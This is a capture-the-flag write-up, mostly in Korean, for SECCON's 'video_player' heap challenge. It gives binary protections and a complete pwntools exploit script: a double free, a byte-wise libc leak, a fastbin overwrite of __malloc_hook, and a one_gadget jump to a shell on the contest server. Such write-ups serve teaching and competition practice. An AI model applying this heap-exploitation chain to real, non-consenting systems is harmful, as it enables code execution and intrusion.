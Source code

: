video_player 500 (Solver : 30)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE         |
|---------------|--------------|------------|--------|----------|------------|--------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | video_player | 

x64 바이너리이며 이게 ida 한번도안쓰고 동적분석으로 진행하다가 더블프리터지는거보고 릭이랑 익스 싹다짰습니다. 원리는 다른 라업을 참고하시는걸로..
(대회중에 푼거라서 코드가 좀 더럽고 정리를 안했습니다.)

### 2. Exploit

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa) -> 이런식으로 할당하면 0xa가 할당되고 똑같이 edit하면 할당하고 해제해서 더블프리가능.

```python
from ntpwn import *

#s = process('./video')
s = remote('video_player.pwn.seccon.jp',7777)
#l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
l = ELF('libc.so.6')
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

pause()
s.sendafter('e name?','A' * 0xff)

def videoadd(a,b,c,d,e):
	s.sendlineafter('>>> ','1')
	s.sendlineafter('>>> ','1')
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def videoedit(index,a,b,c,d,e):
	s.sendlineafter('>>> ','2')
	s.sendlineafter(': ',index)
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def remove(index):
	s.sendlineafter('>>> ','4')
	s.sendlineafter(': ',index)

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)

#debug()

remove('2')
remove('1')
videoedit('0','A','A','\xff','A' * 0x8,'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
print hex(u32(s.recv(4)) ^ 0xcccccccc)
print hex(u32(s.recv(4)) ^ 0xcccccccc)
l_1 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_1))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 5)
l_2 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_2))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 6)
l_3 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_3))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 7)
l_4 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_4))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 8)
l_5 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_5))

libc_leak =  str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex') + str(hex(l_5)[2:]).decode('hex') + '\x7f' + "\x00" * 2

libc_leak = u64(libc_leak) - 0x90 + (0x6 * 8) - 0x8 - l.symbols['__malloc_hook']
print hex(libc_leak)

pause()
videoedit('0','A','A','\x68',p64(libc_leak + l.symbols['__malloc_hook'] - 0x23),'\x0a')
videoadd('\x0a','\x0a','\x68','\x0a','\x0a')
videoadd('\x0a','\x0a','\x68','C' * 0x13 + p64(libc_leak+ 0x4526a),'\x0a')

s.sendlineafter('>>> ','3')


s.interactive()
```

### 3. Flag
